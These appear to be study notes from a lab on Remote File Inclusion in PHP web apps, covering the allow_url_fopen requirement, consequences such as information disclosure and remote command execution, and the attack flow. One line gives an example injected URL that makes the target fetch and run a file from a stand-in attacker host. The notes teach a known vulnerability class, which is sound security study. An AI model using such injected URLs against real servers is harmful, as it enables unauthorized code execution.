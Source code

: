 ## Introduction
- Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application.
- Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function.
- One requirement for RFI is that the allow_url_fopen option needs to be on.

## consequences of a successful RFI attack include:
- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)
The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server.

## Broad overview of RFI:
An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.
![[file_inclusion12.png]]

### RFI steps
First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt.
If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.